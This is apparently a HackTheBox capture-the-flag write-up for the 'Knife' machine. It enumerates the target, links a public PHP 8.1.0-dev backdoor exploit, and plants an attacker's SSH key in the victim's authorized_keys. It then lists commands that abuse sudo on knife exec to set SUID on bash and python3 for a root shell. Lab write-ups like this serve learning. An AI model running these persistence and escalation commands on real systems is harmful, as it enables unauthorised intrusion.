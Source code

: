 ```yaml
---
title: "Knife"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-06-04 07:38:32 +05:30
categories: [Writeups, HackTheBox]
img_path: /assets/img/writeups/knife/
tags: [HTB, PHP, Knife]
render_with_liquid: false
---
```


## Recon & Enumeration

- `nmap -Pn -p- -A 10.10.10.242`

```
10.10.10.242:22 => OpenSSH 8.2p1 Ubuntu
10.10.10.242:80 => Apache httpd 2.4.41
```

- Wappalyzer shows PHP 8.1 version. 
- Burp Repeater will also reveal the PHP version information in server headers. 

![Burp Suite Repeater reveals PHP version.png](knife_burp_repeater_reveals_php_version.png)

- Google: `php 8.1 0 dev exploit` 
- [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933) 
- `687da428-----------77b683b1c`

- Get ssh files from `/home/james/.ssh`
- `ssh-keygen` on Kali VM to make your own `id_rsa.pub` and then paste its content in victim Knife's `/home/james/.ssh/authorized_key` file. 
- On Kali: `ssh -i ~/.ssh/id_rsa james@10.10.10.242`
- I can ssh into Knife with my own private `id_rsa` key as I've added my `id_rsa.pub` key to `/home/james/.ssh/authorized_key`
- `sudo /usr/bin/knife exec`
- Starts an interactive Knife shell. 


## Privilege Escalation

- `sudo -l` shows we can run `/usr/bin/knife` as root without password.
- Went to [Knife docs](https://docs.chef.io/workstation/knife_exec/) and knife has an `exec` command. 
- `sudo /usr/bin/knife exec`
- `sudo /usr/bin/knife exec -e 'sudo ruby -e exec "/bin/bash";'` 
- `system('chmod +s /bin/bash')` in interactive shell. 
- Press enter and then `Ctrl+D` to exit. 
- `ls -la /bin/bash` 
- `bash` now has SUID 
- `bash -p` => root!
- Try other commands as well like 
- `sudo /usr/bin/knife exec -e 'sudo ruby'`
- We can also set SUID on `python3'`
- `system('chmod +s /usr/bin/python3')` in interactive shell, `Ctrl+D`. And then: 
- `python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

![HTB Knife Privilege Escalation](htb_knife_privilege_escalation_root.png)

